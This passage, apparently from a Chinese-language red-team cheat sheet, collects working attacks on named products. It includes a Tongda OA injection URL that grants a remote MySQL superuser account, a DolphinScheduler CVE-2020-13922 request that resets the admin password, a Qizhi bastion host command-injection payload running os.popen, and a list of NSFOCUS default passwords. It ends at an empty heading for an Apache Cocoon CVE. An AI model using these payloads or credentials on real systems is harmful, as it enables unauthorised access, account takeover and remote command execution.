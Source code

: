 ```angular2
4、通达OA配置mysql默认是不开启外网访问的所以需要修改mysql授权登录。
/general/hr/manage/query/delete_cascade.php?condition_cascade=
grant all privileges ON mysql.* TO 'ateam666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION
5、接下来就是考验mysql提权功底的时候啦 233...
```

### Apache DolphinScheduler权限覆盖漏洞[CVE-2020-13922]

> 大概就长这个样子,默认密码[Apache DolphinScheduler: admin/dolphinscheduler]有写到。

```angular2
POST /dolphinscheduler/users/update
id=1&userName=admin&userPassword=Password1!&tenantId=1&email=sdluser%40sdluser.sdluser&phone=
```
![](images/hvv_17.png)


### 齐治堡垒机远程代码执行
> 据说还是另外一个版本是java的。

```angular2
POST /shterm/listener/tui_update.php

a=["t';import os;os.popen('whoami')#"]
```
![](images/hvv_18.png)


### 绿盟安全产品默认密码排查列表

```angular2
IPS入侵防御系统、SAS­H运维安全管理系统、SAS安全审计系统、DAS数据库审计系统、RSAS远程安全评估系统、WAF WEB应用防护系统
sysauditor/sysauditor
sysmanager/sysmanager
supervisor/supervisor
maintainer/maintainer
webpolicy/webpolicy
sysadmin/sysadmin
conadmin/conadmin
supervis/supervis
webaudit/webaudit
sysadmin/sysadmin
conadmin/nsfocus
weboper/weboper
auditor/auditor
weboper/weboper
nsadmin/nsadmin
admin/nsfocus
admin/admin
shell/shell
```

### Apache Cocoon XML注入 [CVE-2020-11991]
